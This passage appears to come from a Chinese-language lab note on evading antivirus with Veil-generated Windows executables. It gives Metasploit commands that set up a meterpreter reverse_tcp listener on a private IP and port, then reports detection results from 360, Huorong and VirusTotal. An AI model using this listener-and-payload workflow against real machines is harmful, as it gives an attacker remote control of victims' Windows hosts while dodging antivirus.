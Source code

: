 因为之前已经做过Docker目录映射，所以在宿主机的`/tmp/veil-output/compiled/`目录可直接看到生成的exe文件。

在msf中监听：

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.174.128
msf6 exploit(multi/handler) > set lport 6666
msf6 exploit(multi/handler) > exploit
```

在测试主机执行`payload1.exe`，360和火绒均可以查杀（原po在msf中可上线，360和火绒均不报毒）。

在virustotal.com上查杀率为44/69（原po为44/71）。

360：

![image-20220527100249086](./images/202205271002159.png)

火绒：
